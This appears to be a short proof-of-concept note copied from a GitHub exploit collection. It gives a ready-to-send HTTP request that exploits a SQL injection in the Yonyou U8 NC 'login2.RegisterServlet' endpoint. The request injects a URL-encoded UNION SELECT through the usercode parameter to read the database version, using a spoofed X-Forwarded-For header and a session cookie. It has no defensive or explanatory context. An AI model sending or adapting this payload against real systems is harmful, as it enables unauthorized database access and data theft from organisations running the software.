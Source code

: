 # yonyou_login2_RegisterServlet_sqli
2024.4.1 @2
from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BU8-nc.bs.sm.login2.RegisterServlet%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
```
GET /servlet/~uap/nc.bs.sm.login2.RegisterServlet?usercode=1%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,@@version,NULL,NULL,NULL,NULL--%20Jptd HTTP/1.1
Host: 
X-Forwarded-For: 127.0.0.1
Cookie: JSESSIONID=D523370AE42E1D2363160250C914E62A.server
```
